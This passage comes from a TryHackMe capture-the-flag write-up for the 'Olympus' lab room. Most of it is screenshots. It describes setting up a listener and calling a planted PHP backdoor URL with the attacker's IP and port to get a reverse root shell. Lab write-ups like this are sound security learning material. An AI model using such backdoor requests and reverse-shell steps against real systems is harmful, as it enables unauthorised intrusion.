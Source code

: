   <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/blob/pictures/olympus_pics/27.png">
</p>

<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/blob/pictures/olympus_pics/28.png">
</p>

 Looks like it's giving us the sintax for our backdoor, let's set up a listener on the attack machine and send the request with the correct syntax:
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/blob/pictures/olympus_pics/29.png">
</p>

Then navigate to: http://chat.olympus.thm:7890/VIGQFQFMYOST.php?ip=10.13.40.163&port=8899

_And we've got root!_
<p align="center">
  <img src="https://github.com/SneakyTurtle158/TryHackMe_Writeups/blob/pictures/olympus_pics/30.png">
</p>
<p align="center">